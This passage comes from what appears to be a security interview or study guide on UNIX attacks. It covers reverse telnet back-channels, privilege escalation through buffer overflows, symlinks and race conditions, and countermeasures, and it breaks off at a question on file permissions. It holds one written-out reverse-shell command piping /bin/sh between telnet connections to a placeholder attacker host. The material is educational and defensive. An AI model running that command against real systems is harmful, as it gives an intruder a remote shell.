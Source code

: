       To initiate a reverse telnet, we must execute the following commands on the target server:

      ```sh
      /bin/telnet evil_IP 80 | /bin/sh | /bin/telnet evil_IP 25
      ```

      Telnet on port 80 connects to our nc listener on port 80. Standard output or keystrokes are piped into `/bin/sh`. Then the results of our command into another telnet on port 25.

      &#9940; ` Countermeasures`: The best prevention is to keep your systems secure so a back-channel attack cannot be executed (disabling unnecessary services and applying vendor patches).

- **GAIN ROOT ACCESS**: Thus far, we have covered common remote access techniques. Most attackers strive to gain local access via some remote vulnerability. At the point where attackers have an interactive command shell, they are considered to be local on the system. Although it is possible to gain direct root access via a remote vulnerability, often attackers gain user access first. Thus, attackers **must escalate user privileges to gain root access**, better known as privilege escalation. 

  - &#128163; `Local Buffer Overflow`: Buffer overflow vulnerabilities allow attackers to execute arbitrary code or commands on a target system. In August 2011, ZadYree released a vulnerability related to a stack-based buffer overflow condition in the RARLAb unrar 3.9.3 archive package, a Linux port of the popular WinRar archive utility. By persuading an unsuspecting user to open a specially crafted rar file, an attacker can trigger a local stack-based buffer overflow and execute arbitrary code on the system in the context of the user running the unrar application. When run, the exploit jumps to a specific address in memory, and `/bin/sh` is executed in the context of the application.

    &#9940; ` Countermeasures`: The best buffer overflow countermeasure is **secure coding practices** combined with a **non-executable stack**.
  - &#128163; `Symlink`: Many SUID root programs are coded to create working files in `/tmp` or other directories without the slightest bit of sanity checking. A symbolic link is a mechanism where a file is created via the `ln` command. A symbolic link is nothing more than **a file that points to a different file**. Let’s reinforce the point with a specific example. 
   
	  In 2009, it was discovered a symlink vulnerability in *xscreensaver 5.01* that can be used to view the contents of other files not owned by a user. Xscreensaver reads user configuration options from the `~/.xscreensaver` file. If the `.xscreensaver` file is a symlink to another file, then that other file is parsed and output to the screen when the user runs the xscreensaver program. Because OpenSolaris installs xscreensaver with the **setuid bit set**, the vulnerability allows us to read any file on the file system.
  - &#128163; `Race Condition`: Attackers **take advantage of a program** or process **while it is performing a privileged operation**. Typically, this includes timing the attack to abuse the program or process after it enters a privileged mode but before it gives up its privileges. A vulnerability that allows attackers to abuse this window of opportunity is called a race condition.

    A race condition or race hazard is the behavior of an electronics, software, or other system where the system’s substantive behavior is dependent on the sequence or timing of other uncontrollable events. It becomes a bug when one or more of the possible behaviors is undesirable. If the attackers successfully manage to compromise the file or process during its privileged state, it is called “winning the race”.

### Q: Describe UNIX permission system and the main attack vectors related to permission system.

A: File permissions are specified by 3 **access classes**: user, group and others:
